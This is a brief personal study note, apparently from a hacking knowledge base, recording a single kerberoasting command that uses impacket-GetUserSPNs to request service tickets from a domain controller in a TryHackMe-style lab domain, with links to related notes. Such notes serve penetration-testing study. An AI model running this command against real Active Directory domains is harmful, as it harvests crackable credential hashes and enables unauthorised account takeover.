 # impacket kerberoast with impacket-GetUserSPNs
```bash
impacket-GetUserSPNs -dc-ip $IP -request LAB.ENTERPRISE.THM/username
```

` zet/20221003150597/README.md `

# Related

- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:

    #command #hacking #impacket 
